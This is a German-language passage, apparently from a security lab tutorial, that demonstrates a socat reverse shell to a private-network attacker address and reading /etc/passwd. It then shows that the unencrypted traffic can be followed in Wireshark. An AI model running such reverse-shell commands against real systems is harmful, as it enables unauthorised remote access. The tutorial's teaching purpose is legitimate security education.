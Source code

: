 1. Auf dem Angreifer-System führen wir `socat -d -d TCP-LISTEN:4443,fork STDOUT` aus.
2. Auf dem Opfer-Computer führen wir `socat TCP:10.20.30.129:4443 EXEC:/bin/bash` aus.
3, Zurück auf dem Angreifer-System geben wir `cat /etc/passwd` ein und drücken die Eingabetaste.

Da keine Verschlüsselung verwendet wurde, zeigt das Erfassen des Datenverkehrs zwischen den beiden Systemen die Befehle und den ausgetauschten Verkehr. Im folgenden Screenshot sehen wir den von dem Angreifer gesendeten Befehl.  
![2024-07-28-08f8e9b8cdae4878dab23cbb57dfbbe2.png](Bilder/2024-07-28-08f8e9b8cdae4878dab23cbb57dfbbe2.png)

Darüber hinaus ist es eine triviale Aufgabe, dem TCP-Stream zu folgen, da er im Klartext vorliegt und alles zu erfahren, was zwischen dem Angreifer und dem Zielsystem ausgetauscht wird. Der folgende Screenshot verwendet die Option „TCP-Stream folgen“ von Wireshark.  